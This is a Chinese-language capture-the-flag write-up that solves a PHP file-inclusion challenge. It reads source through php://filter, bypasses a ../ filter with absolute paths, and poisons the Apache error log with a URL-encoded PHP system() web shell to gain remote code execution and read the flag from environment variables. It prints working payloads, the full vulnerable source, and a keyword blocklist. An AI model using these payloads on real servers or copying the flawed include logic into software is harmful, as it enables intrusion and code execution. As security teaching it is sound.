






# Stage 2 · 文档管理系统 — 文件包含到日志注入

> **题目类型**：Web — PHP 文件包含 + 日志污染
>
> **题目地址**：ctfplus 平台实例（已关闭）
>
> **Flag**：`ZeroGFlag{18e84305-6b07-4aca-84ee-9891c5cb062d}`

---

## 题目概述

一个叫「碰星文件管理」的文档系统，登录页之后是一套像模像样的文件列表、检索、预览界面。

**先看页面有没有可以利用的**，到处点了一遍 —— 实际有用的只有一个：**文档预览**。



**这个预览框能读任意「文档名」，而后端是 `include()`。**

---

## 解题过程

### Step 1：找到唯一有用的功能

**页面上按钮很多（新建、上传、回收站、已发布……），但除了预览，全是空壳。**

**预览框输入文件名 → 前端发一个请求：**



```javascript
fetch('index.php?file=' + encodeURIComponent(name), {method:'GET'})
```

**接口是 `index.php?file=`，参数名 `file`。**

### Step 2：直接看 index.php 看不到 —— 用伪协议读源码

**`?file=index.php` 返回空 —— 因为 `include` 把它**执行**了，而不是打印。**

**换成 base64 编码滤镜：**

```text
?file=php://filter/convert.base64-encode/resource=index.php
```

**读到 2797 字节的源码。**关键就在 `include` 和那条正则上。

### Step 3：`cmd` 是个陷阱



```php
$WAF_PATTERN = '/(flag|cat|ls|\*|\?)/i';

function run_maintenance_command($command)
{
    return system($command);
}

if (isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    if (preg_match($WAF_PATTERN, $cmd)) { echo "安全策略…"; exit; }
    // 校验通过，命令参数将在文档内容渲染阶段被一并处理
}
```

**第一眼看像是「命令执行 + WAF」，但拉下去看完整文件会发现：`run_maintenance_command()` **只有定义，没有调用**。**

**注释自己也写着「Web 接口层不再直接触发」。**

**WAF 保护的是一个什么都不做的空壳 —— 这个入口对我们没有任何实际作用。**

### Step 4：真正的终点是 `include`，它过滤了目录穿越



```php
$file = str_replace('../', '', $file);   // 剥一次
$file = str_replace('..',  '', $file);   // 再剥一次

$is_stream = preg_match('#^[a-zA-Z0-9._+-]+://#', $file) === 1;

if ($is_stream)               { $target = $file; }
elseif (file_exists($file))   { $target = $file; }
elseif (file_exists('files/' . $file)) { $target = 'files/' . $file; }

if ($target === null) { echo "未找到指定的文档…"; exit; }

include($target);
```

**两点：**

```
① ../ 被剥两次 → 相对穿越走不通（....// 这种双写也是死的）
② 但 file_exists($file) 对绝对路径直接为真 → 绝对路径完全可用
```

**而且 `include` 对文件类型的处理不一样：**

```text
include 一个 txt  →  内容原样打印
include 一个 php  →  内容被当代码执行
```

### Step 5：确认日志路径

**先确认 Apache 还是 nginx 的日志能用：**

```text
?file=/var/log/apache2/access.log      → 读不到
?file=/var/log/nginx/access.log        → 能读
```

**但这里有个容易误判的地方 ——**文件名写的是 `nginx`，日志内容却是 Apache 的**：**

```text
[Thu Oct 30 ...] [authz_core:error] [pid 23] [client ...]
```

**`authz_core` 是 Apache 模块，响应头也写着 `Server: Apache/2.4.54 (Debian)`。所以文件名只是路径巧合，服务端是 Apache。**

### Step 6：access.log 突然 500，只能换 error.log

**一开始对 `access.log` 用得挺好，后来就一直是 500 —— 原因是**别人先注入了一条写坏的 payload**：**

```text
script '/var/www/html/<?php eval($_GET['1'];?>.php' not found
                                      └─ 少一个 )，Parse error
```

**一行的语法错误，就能让整份日志作废（include 时直接 500）。**

**所以换 `error.log` —— 它短、干净。**

### Step 7：往 error.log 里注入

**关键：`error.log` 里那条 `script '...' not found` 是**mod_php 找不到脚本**时才写的 —— 只有路径**以 `.php` 结尾**才会产生。**

**构造：**

```text
GET /%3C%3Fphp%20system(%24_GET[2])%3B%3F%3E.php
```

**三个要点：**

| 要点 | 为什么 |
|---|---|
| **URL 编码** `<` `?` `>` 空格 | 不编码的话 `?` 会被当成查询串起点，路径被截断 |
| **结尾加 `.php`** | 不加就不进 error.log（只会进 access.log） |
| **payload 带 `?>`** | 不带的话，日志后半截 `' not found...` 会被当成 PHP 代码继续解析 → Parse error |

### Step 8：先确认，再执行

**注入完**不要直接 include**，先用滤镜把日志读出来核对（不执行）：**

```text
?file=php://filter/convert.base64-encode/resource=/var/log/nginx/error.log
```

**能看到完整的一行：**

```text
script '/var/www/html/<?php system($_GET[2]);?>.php' not found or unable to stat
```

**确认无误，再执行：**

```text
?file=/var/log/nginx/error.log&2=ls -la /
```

### Step 9：`/.php` 不是被截断，是被执行了

**第一次 include 日志时，看到的是这样：**



```text
script '/var/www/html/.php' not found
```

**我一开始以为是 payload 被截断了，其实**中间那一截是被 include 执行掉了**：**

```text
文本:  script '/var/www/html/
代码:  <?php system($_GET[2]);?>      ← 执行，不产生输出
文本:  .php' not found or unable to stat
```

**执行代码不会把代码本身打印出来 —— 所以那一段在响应里"凭空消失"。**

**这也说明：用 `include` 看日志是「执行后的残骸」，只有 `php://filter` 才能做取证。**

### Step 10：flag 不在 flag 文件里

**`ls -la /` 看到了：**

```text
-r--------    1 root root   48 Oct 30 06:11 flag
-rwxr-xr-x    1 root root 1507 Oct 16 18:22 entrypoint.sh
```

**`/flag` 是 `400 root`，而当前进程是 `uid=33(www-data)` —— `cat /flag` 读不了，权限不够。**

**那就读 `entrypoint.sh`（755，可读）：**

```sh
FLAG_VALUE="${ZeroG_2026_FLAG:-}"
export ZeroG_2026_FLAG="$FLAG_VALUE"
printf '%s\n' "$FLAG_VALUE" > "$FLAG_FILE"
chown root:root "$FLAG_FILE"
chmod 400 "$FLAG_FILE"
exec apache2-foreground
```

**原来如此：flag 来自环境变量 `ZeroG_2026_FLAG`，写进 `/flag` 之后**还 export 给了 Apache**。**

**Apache 的子进程继承这个环境变量 → PHP 进程的 `/proc/self/environ` 里就有。**



```text
?file=/var/log/nginx/error.log&2=env
```

**在输出里直接就能看到：**

```text
ZeroG_2026_FLAG=ZeroGFlag{18e84305-6b07-4aca-84ee-9891c5cb062d}
```

---

## 解题思路总结

```text
页面到处点 → 只有「文档预览」是真功能
  → 前端 fetch('index.php?file='+name)   ← 泄漏了接口名
    → 直接读 index.php 是空的（被 include 执行了）
      → php://filter/convert.base64-encode 读源码
        → 发现 cmd 是陷阱（函数从未被调用）
          → 真入口是 include，绝对路径放行
            → 日志可读可写 → 注入 PHP 到 error.log
              → include 日志 → RCE
                → /flag 是 400 root 读不了
                  → entrypoint.sh 暴露了 flag 来自环境变量
                    → /proc/self/environ → flag
```

### 漏洞原理

**① WAF 保护的不一定是真入口**

**`cmd` 参数有完整的 WAF，但它调用的函数**从未被调用**。真正的入口 `file` 一处过滤都没有。**

**② 绝对路径让「目录穿越过滤」形同虚设**

**`../` 被剥两次，但 `include` 认绝对路径 —— 过滤只挡住了「相对」这一种写法。**

**③ 把「读文件」变成「执行文件」**

**`include` + 日志 = 我们能把任意字节写进日志，再让它被当成代码执行。**

**④ flag 不一定在 flag 文件里**

**`/flag` 是给 root 看的副本；`entrypoint.sh` 把它 export 给了 Apache，环境变量里才是我们能拿到的那一份。**

### 关键知识点

| 知识点 | 说明 |
|---|---|
| `php://filter/convert.base64-encode/resource=x` | 读源码不执行 —— 绕开 include 的执行 |
| `include` 的行为差异 | txt 输出、php 执行 |
| `str_replace('../','')` 的双重剥除 | `....//` 这类双写也会被削平 |
| 绝对路径 vs 相对路径 | 只过滤后者时，前者照样通 |
| 日志注入三要素 | 路径可控 + 日志可读 + 日志会被 include |
| **路径必须以 `.php` 结尾** | 只有走 mod_php 才有 `script not found` 这条日志 |
| URL 编码 `<` `?` `>` | 否则 `?` 截断路径 |
| payload 必须带 `?>` | 否则日志尾部被当代码解析 → Parse error |
| `php://filter` 与 `include` 的区别 | 前者取证，后者执行 |
| `/proc/self/environ` | 环境变量，常藏着 flag/密码 |
| `entrypoint.sh` | 容器镜像里常可直接读，暴露启动逻辑 |

---

??? note "index.php 完整源码"

    ```php
    <?php
    error_reporting(0);

    // 统一返回纯文本，便于前端在预览区域直接展示
    header('Content-Type: text/plain; charset=utf-8');

    // 安全策略：请求内容匹配规则
    $WAF_PATTERN = '/(flag|cat|ls|\*|\?)/i';

    /**
     * 内部运维命令执行工具。
     * 仅供服务器内部维护脚本调用，Web 接口层不再直接触发。
     */
    function run_maintenance_command($command)
    {
        return system($command);
    }

    /* 第四层：命令参数安全校验
     * 仅当请求中包含 cmd 参数时，才进行安全策略检查。 */
    if (isset($_GET['cmd'])) {
        $cmd = $_GET['cmd'];
        if (preg_match($WAF_PATTERN, $cmd)) {
            echo "安全策略：检测到不允许的请求内容，该操作已被拦截并记录。\n";
            exit;
        }
        // 校验通过，命令参数将在文档内容渲染阶段被一并处理
    }

    /* 第一 / 第二层：文档路径解析与内容包含 */
    $file = isset($_GET['file']) ? $_GET['file'] : 'welcome.txt';

    // 规范化文档路径，移除相对路径记号
    $file = str_replace('../', '', $file);
    $file = str_replace('..', '', $file);

    $target = null;

    // 识别 php:// 等流封装协议
    $is_stream = preg_match('#^[a-zA-Z0-9._+-]+://#', $file) === 1;

    if ($is_stream) {
        $target = $file;
    } elseif (file_exists($file)) {
        $target = $file;
    } elseif (file_exists('files/' . $file)) {
        $target = 'files/' . $file;
    }

    if ($target === null) {
        echo "未找到指定的文档，请确认文件名称是否正确。\n";
        exit;
    }

    // 输出文档内容
    include($target);
    ```
